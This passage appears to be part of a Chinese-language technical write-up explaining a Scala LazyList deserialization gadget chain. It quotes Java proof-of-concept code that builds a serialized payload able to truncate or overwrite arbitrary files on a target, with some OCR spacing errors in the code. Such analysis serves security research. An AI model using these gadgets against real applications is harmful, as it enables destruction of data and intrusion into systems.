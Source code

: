 ```java
        return ReflectionUtil.newInstance("scala.sys.process.Process BuilderImpl$FileOutput$$anonfun$$lessinit$greater$3",
                new Class[]{ ProcessBuilder$.class, File.class, boolean.class},
                new Object[] {null, new File(fileToTruncate), append});
    }
```

`generatePayload`方法

```java
private static final String LAZY_LIST_CLASSNAME = "scala.collection.immutable.LazyList";
@Override
public byte[] generatePayload(Object... args) {
   // 构造无参匿名函数
   Function0<Object> function0 = function0Provider.apply(args);
   // 创建LazyList
   Object lazyList = createLazyList(function0);
   // 模拟writeReplace方法
   Object serializationProxy = ReflectionUtil.newInstance("scala. collection.immutable.LazyList$SerializationProxy",
            lazyList);
   // 序列化
   return  SerdeUtil.serialize(serializationProxy);
}
```

`function0Provider` 即前面传入的`FILE_OUTPUT`，通过调用其注入器方法`apply`显式的构造一个`Function0`类型的对象，然后将该对象传入到`createLazyList`创建一个`LazyList`对象，最终使用`SerializationProxy`进行包装（参考`LazyList writerePlace`方法）最终将该对象序列化。

在调用`createLazyList` 创建`LazyList`对象时首先通过反射的方式创建了`LazyList对`象，然后设置了其三个属性。

```java
public Object createLazyList(Function0<Object> function0) {
         // 创建LazyList对象
        Object lazyList = ReflectionUtil.newInstance(LAZY_LIST_ CLASSNAME, new Class[] {Function0.class}, function0);

        Object emptyLazyListState = ReflectionUtil.getStaticField("scala.collection.immutable.LazyList$State$Empty$", "MODULE$");
        // 设置Empty对象类型的state，以便反序列化能够结束
        ReflectionUtil.setField(lazyList, "scala$collection$immutable$LazyList$$state", emptyLazyListState);
        // 设置stateEvaluated 在进行KonwnonEmpty检查时确保进入到isEmpty方法中
        ReflectionUtil.setField(lazyList, "scala$collection$immutable$LazyList$$stateEvaluated", true);
        // 避免序列化过程中在本地触发Payload
        ReflectionUtil.setField(lazyList, "bitmap$0", true);
        return lazyList;
    }
```

在`POC`中除了提供`scala.sys.process.ProcessBuilderImpl$FileOutput$$anonfun$$lessinit$greater$3`外，还提供了另外两个可使用的匿名函数

